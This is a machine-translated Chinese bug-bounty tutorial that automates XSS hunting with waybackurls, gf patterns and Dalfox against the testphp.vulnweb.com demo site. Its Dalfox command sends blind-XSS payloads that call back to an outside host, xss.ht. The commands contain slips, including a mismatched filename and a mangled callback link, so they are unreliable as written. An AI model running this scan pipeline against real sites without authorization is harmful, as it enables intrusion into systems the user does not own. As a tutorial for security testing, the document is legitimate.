# 使用 Dalfox、GF 和 Waybackurls 实现 XSS 自动化

> 原文：<https://infosecwriteups.com/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75?source=collection_archive---------0----------------------->

![](img/41f309950d4656ad98287b5c23c9ed76.png)

大家好！😄

希望你们都好。

自动化的东西总是很有趣，所以为什么不 XSS。你只需要在你的机器上安装“GO Lang”就可以了。

***结帐官方更新指南***[***bug blogs***](https://www.bugblogs.tech/post/automating-xss-using-dalfox-gf-and-waybackurls)

![](img/2fa149fb28d9fa474a367e4cd9dae34f.png)

# **先决条件:**

*   [GF](https://github.com/tomnomnom/gf)by[TomNomNom](https://twitter.com/TomNomNom)
*   [GF 图案](https://github.com/1ndianl33t/Gf-Patterns)由 [Shiv 抽焊](https://twitter.com/1ndianl33t)
*   WayBackURLs 作者[汤姆诺姆](https://twitter.com/TomNomNom)
*   [达尔福克斯](https://github.com/hahwul/dalfox) by [哈哈乌](https://twitter.com/hahwul)

# **工作流程**

*   安装上述所有工具后，选择你的目标。让我们使用“[http://testphp.vulnweb.com/](http://testphp.vulnweb.com/)”来进行演示。
*   使用 Waybackurls 获取所选目标的 URL，并将输出保存在文本文件中。

```
echo “testphp.vulnweb.com” | waybackurls | tee testphp.txt
```

*   使用 GF 模式找到给你 XSS 的 URL，并使用`sed`命令为 Dalfox 准备好我们的 URL

```
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt
```

*   是时候解雇达尔福克斯并开始寻找 XSS 了。

```
dalfox file testxss.txt -b [tigv2.xss.h](https://tigv2.xss.ht)t pipe
```

*   确保你把我的盲人 XSS 猎人的有效载荷换成你的。

# 使用 bash 自动化工作流

查看 Bash 脚本来自动化工作流。

[](https://github.com/theinfosecguy/QuickXSS) [## theinfosecguy/QuickXSS

### Bash 脚本使用 Waybackurls，GF，GF 模式和 Dalfox 实现 XSS 自动化。这里是他们的仓库:安装进去…

github.com](https://github.com/theinfosecguy/QuickXSS) 

希望你们会喜欢。如果喜欢，请给它一个**掌声**。👏

请务必查看我的 **BugBlogs** 以获得更多令人惊叹的文章和博客:[https://](https://blog.theinfosecguy.me/post/bypassing-rate-limit-like-pro/)www . bug Blogs . tech

***上*** 找我:

**领英**:[http://linkedin.com/in/keshav-malik](http://linkedin.com/in/keshav-malik-22478014a/)/

**推特**:[https://twitter.com/g0t_rOoT_](https://twitter.com/g0t_rOoT_)